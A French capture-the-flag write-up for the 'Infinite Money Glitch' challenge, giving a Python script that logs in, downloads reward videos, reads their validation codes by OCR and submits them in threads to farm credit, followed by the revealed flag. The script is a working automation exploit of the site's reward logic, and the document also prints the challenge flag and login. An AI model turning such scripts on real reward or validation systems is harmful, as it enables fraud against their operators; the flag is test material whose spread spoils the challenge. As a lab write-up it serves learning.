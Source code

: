 # Infinite Money Glitch

![Thumb](../resources/InfiniteMoneyGlitch-thumb.png)

## Introduction

Challenge de dev où il fallait capter un code de validation après avoir lu une vidéo pour le soumettre et gagner de l'argent.

## Description

Ce super site permet de devenir riche en regardant des vidéos !

Comme toutes les bonnes choses, il doit bien y avoir un moyen d'en abuser...

-----

## Résolution

Après avoir observé les trames HTTP intéressantes, j'ai reproduis le scénario dans un code python. Il fallait 500$ pour acheter la carte contenant le flag, une vidéo validée représentant 0,1$, il fallait en valider 5000.

![Video](../resources/InfiniteMoneyGlitch-video.png)

    Une petite astuce ici nous permettait de découvrir qu'il n'y avait que 51 vidéos, j'avais prévu de calculer les hash (md5 pour être rapide) des vidéos téléchargées et de les enregistrer dans un fichier.

    Un autre challenge était que le service web était réinitialisé toutes les heures, il fallait donc faire vite pour les 5000 en une heure.

Une vidéo durait 30 secondes et le code de validation était affiché pendant approximativement 4 secondes. Récupérer 6 ou 7 frames dans la vidéo suffisait pour au moins tomber sur le code de validation. Une fois le code récupéré, il était envoyé dans un thread pour qu'il appelle l'API de validation dans les 30 secondes suivantes pour éviter de se prendre une erreur "Too early".

Voici mon bout de code python en l'état (not clean), je me suis inspiré d'une vidéo youtube qui faisait de l'OCR pour les sous-titres, il m'a permis de relever le challenge en moins d'une heure. Quelques vidéos n'ont pas été reconnues, je les ai complété à la main dans mon fichier `./hashes.txt`.

```python
#!/usr/bin/env python3
import requests
from bs4 import BeautifulSoup
from PIL import Image
import time
import urllib
import hashlib
import pytesseract
import threading

import os
import cv2

USR = 'ptifilou@tu.bs'
PWD = 'ptifilou@tu.bs123'

S_URL = 'https://infinitemoneyglitch.chall.malicecyber.com/'
S_LOGIN = 'login'
S_MAKEMONEY = 'video'
S_VALIDATE = 'validate'

SESSION = requests.Session()
hashes = {}
counter = 0

image_frames = 'image_frames'

def init():
    print('Loading hashes...')
    with open('./hashes.txt', 'r') as f:
        for l in f:
            h, c = l.split()
            hashes[h] = c
    print('Loading done.')

    try:
        os.remove(image_frames)
    except OSError:
        pass

    if not os.path.exists(image_frames):
        os.makedirs(image_frames)

def process(src_vid, frames_folder):
    index = 0
    while src_vid.isOpened():
        ret, frame = src_vid.read()
        if not ret:
            break

        name = f'{frames_folder}/frame{str(index)}.png'

        if index%24 == 0:
            cv2.imwrite(name, frame)
        index = index + 1
        if cv2.waitKey(10) & 0xFF == ord('q'):
            break

    src_vid.release()
    cv2.destroyAllWindows()

def get_text(folder):
    global counter
    for i in os.listdir(folder):
        my_example = Image.open(folder + "/" + i)
        text = pytesseract.image_to_string(my_example)
        if "code: " in text:
            print(f"Estimated counter {counter} ")
            code = str(text.split('code: ')[1])[0:4]
            if code.isnumeric():
                return code

def login():
    params = { 'email': USR, 'password': PWD, 'remember': "on", 'submit': "Log In" }
    response = SESSION.post(f'{S_URL}{S_LOGIN}', data=urllib.parse.urlencode(params), headers={'Content-Type':'application/x-www-form-urlencoded'})
    # print(response.text)

def get_next_video():
    global hashes
    global counter
    response = SESSION.get(f'{S_URL}{S_MAKEMONEY}')
    html_response = response.text
    soup = BeautifulSoup(html_response, 'html.parser')
    html_video_source = soup.find('source')
    vid_file = html_video_source.get('src')
    vid_name = vid_file.split('stream/')[1]
    file_name = f'./videos/{vid_name}.mp4'

    # download
    gvid_file = SESSION.get(f'{S_URL}{vid_file}', stream = True)
    with open(file_name, 'wb') as f: 
        for chunk in gvid_file.iter_content(chunk_size = 1024*1024): 
            if chunk: 
                f.write(chunk)
    
    with open(file_name, 'rb') as f: 
        contents = f.read()
        hash = hashlib.md5(contents).hexdigest()
        if hash in hashes:
            code = hashes.get(hash)
            data = {'uuid':vid_name, 'code': code}
            os.remove(file_name)
            print(f'HASH FOUND - STARTING THREAD with {vid_name}, {code}')
            thread = threading.Thread(target=validate, args=(vid_name, code, counter))
            thread.start()
            counter = counter + 1
        else:    
            vid = cv2.VideoCapture(file_name)
            frames_folder = f'./image_frames/{vid_name}'
            if not os.path.exists(frames_folder):
                os.makedirs(frames_folder)
            process(vid, frames_folder)
            code = get_text(frames_folder)
            if (code):
                with open('./hashes.txt', 'a') as f:
                    print(f'{vid_name} {hash} {code}\n')
                    f.write(f'\n{hash} {code}')
                    hashes[hash] = code
                data = {'uuid':vid_name, 'code':code}
                print(f'OCR - STARTING THREAD with {vid_name}, {code}')
                os.remove(file_name)
                thread = threading.Thread(target=validate, args=(vid_name, code, counter))
                thread.start()
                counter = counter + 1
            else:
                print(f'Not found on {file_name}, {hash}')

def validate(uuid, code, count):
    time.sleep(30)
    data = {'uuid':uuid, 'code':code}
    final_response = SESSION.post(f'{S_URL}{S_VALIDATE}', json=data, headers={'Content-Type':'application/json'})
    print(f'THREAD {count} - sending: {data} - response: {final_response.text}')


if __name__ == '__main__':
    login()
    init()
    while(True):
        get_next_video()
```

 J'ai rempli de code de log pour savoir a peu près quand j'avais atteins les 5000 vidéos pour enfin acheter la carte !

 ![Card](../resources/InfiniteMoneyGlitch-card.png)

 L'image passait pas mais l'HTML ne cache rien !

 ```html
 <aside class="card-front">
		<label class="numbers" for="cardNumber">
			DGHACK{ButWhereCanIActuallySpendIt}
		</label>
		<label class="name" for="cardHolder">
			ptifilou@tu.bs ptifilou@tu.bs
		</label>
		<label class="expiry" for="expiryMonth">
			Credit left: 0.0€
		</label>
		<img class="cardLogo" src="/static/img/logo.png">
		<div class="chip">
		<svg role="img" viewBox="0 0 100 100" aria-label="Chip">
			<use href="#chip-lines"></use>
		</svg>
		</div>
		<svg class="contactless" role="img" viewBox="0 0 24 24" aria-label="Contactless">
		<use href="#contactless">
		</use></svg>
    </aside>
```

    Note : J'ai vu plus tard auprès d'un screenshot d'un autre participant qu'un code de promotion était disponible: 50€ la carte si tu l'achetais dans les 20 minutes après l'inscription, soit seulement 500 vidéos à lire !
